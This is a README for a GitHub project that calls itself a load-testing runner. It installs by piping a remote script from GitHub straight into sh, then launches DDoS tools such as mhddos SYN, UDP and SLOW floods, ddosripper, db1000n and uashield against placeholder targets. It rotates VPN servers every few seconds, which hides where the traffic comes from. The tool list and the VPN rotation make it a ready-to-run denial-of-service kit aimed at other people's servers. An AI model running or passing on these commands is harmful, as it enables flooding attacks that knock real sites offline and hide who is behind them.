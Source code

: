 # Ubuntu load testing tools under vpn runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
curl https://raw.githubusercontent.com/ctukraine22/runner/master/install.sh | sh
```

# Init vpn settings
```
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-countries" %vpn-refresh-sec% %vpn-servers% %vpn-transport% %vpn-cret-repo%
# example:
 /runner/init.sh user1 code1 expressvpn Country
```

# Run

```
/runner/run.sh bombardier -p "i,p,r" -c 1000 -d 9000s -l x.x.x.x 80 
/runner/run.sh ddosripper x.x.x.x 80 
/runner/run.sh mhddos SLOW http://x.x.x.x 5 100 socks5.txt 100 9000
/runner/run.sh mhddos SYN x.x.x.x:80 100 9000
bash /runner/run.sh mhddos UDP x.x.x.x:53 100 3000
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see https://github.com/qdm12/gluetun/wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need to provide repo with key and crt file via %vpn-cret-repo%

# Supported tools
- db1000n
- checksites
- gofucker
- uashield
- ddoser
- ddosripper
- bombardier
- mhddos
- kali

# Get status after reconnect
```
bash /runner/run.sh status
```